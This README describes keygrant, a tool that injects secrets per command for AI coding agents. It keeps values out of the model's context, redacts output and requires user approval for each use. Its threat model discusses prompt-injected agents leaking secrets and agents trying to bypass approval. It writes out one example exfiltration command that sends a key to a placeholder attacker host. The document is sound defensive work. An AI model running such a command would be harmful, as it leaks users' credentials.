

# keygrant



Per-command secret injection for AI coding agents. Secrets live in a local
DPAPI-encrypted vault; the model's context only ever sees secret **names** —
values are injected into the child process environment at exec time, and all
output is redacted before it returns to the model.

**Why:** anything placed in an LLM's context can be exfiltrated (prompt
injection, logs, generated code). The fix is architectural: keys never enter
context, only the execution environment.

## Components

- `keygrant.py` — vault + CLI
  - `keygrant set NAME [--desc TEXT]` — store a secret (value via stdin, never argv)
  - `keygrant list` / `rm NAME`
  - `keygrant exec [--redact] NAMES -- CMD` — run CMD with secrets injected
  - `keygrant revoke NAME|--all` — revoke active approval grants
  - `keygrant init` — wire up a project (`.mcp.json` + `CLAUDE.md` guidance)
- `keygrant_mcp.py` — MCP server (stdio JSON-RPC, zero deps)
  - `list_secrets` — names/descriptions/usage only, never values
  - `exec_with_secrets` — server-side exec with injection + forced output redaction
  - deliberately **no** set/store tool: writing a value through the model would
    put it in context; values enter out-of-band via the CLI only

## Install

```bash
uv tool install keygrant     # or: pipx install keygrant
```

Requires Python ≥ 3.10. macOS ships Python 3.9, so a bare `pip install`
there fails; `uv` fetches a suitable Python automatically.

Then, in each project where agents should use secrets:

```bash
keygrant init
```

`init` adds a `keygrant` entry to the project's `.mcp.json` (merging with any
existing servers) and appends usage guidance for the model to `CLAUDE.md`,
both idempotently. Restart Claude Code in that folder to load the server.

### macOS

Values live in the login Keychain; approval is a native dialog.


## Threat model

**What this protects against:**

- *Context exfiltration* — a prompt-injected agent (or plain logging) leaking a
  secret that sits in model context. Values never enter context: the model only
  handles names; decryption and injection happen in the executing process.
- *Output leaks* — an agent echoing a secret back. All output returned to the
  model is redacted, including base64, hex, and URL-encoded variants.
- *Grant riding* — one agent session reusing an approval made in another.
  Grants are bound to the requesting session (MCP server id / CLI parent
  process) and expire after 15 minutes.
- *Silent use* — every first use per session requires explicit user approval;
  timeout means deny.

**What this does NOT protect against (known residual risks):**

- A compromised agent can request a command that exfiltrates the secret over
  the network (`curl evil.com?k=%KEY%`). The approval dialog shows the full
  command — reviewing it is the control. Per-secret egress allowlists (binding
  a key to permitted destination hosts) are on the roadmap.
- Redaction is a second line of defense, not a guarantee: novel encodings can
  evade it. The primary guarantee remains "values never enter context".
- Anything running as the same OS user can read the DPAPI vault. This tool
  scopes *agent* access to secrets; it is not a defense against local malware.

## Approval

Every use of a secret — via the CLI or the MCP server — requires the user's
approval through a native, topmost dialog (deny by default on a 60s timeout).
Approving grants access to that secret for **15 minutes**, bound to the
requesting session (tracked in `grants.json`); `keygrant revoke` withdraws a
grant early. Both channels go through the same gate, so an agent cannot bypass
MCP approval by shelling out to the CLI — and a grant approved for one session
cannot be reused by another. The dialog will be replaced by a resident tray
app with toast notifications; the grant semantics stay the same.

## Storage

- **Windows**: values DPAPI-encrypted (per-user) inside
  `%APPDATA%\keygrant\vault.json`
- **macOS**: values in the login Keychain (via the `security` CLI; the first
  read triggers the OS Keychain permission prompt — an extra OS-level gate);
  `~/.config/keygrant/vault.json` holds metadata only
- **Linux**: values in the Secret Service keyring via `secret-tool`
  (libsecret-tools + a running keyring daemon; approval dialogs need zenity);
  the vault file holds metadata only

The vault file also records usage metadata (use count, last used) as the seed
of an audit trail.

## Roadmap (prototype → product)

1. Resident tray app (replaces the modal dialog; approval history, revoke UI)
2. Per-secret egress allowlists (bind a key to permitted destination hosts)
3. Optional cloud sync for teams (zero-knowledge: server stores ciphertext only)
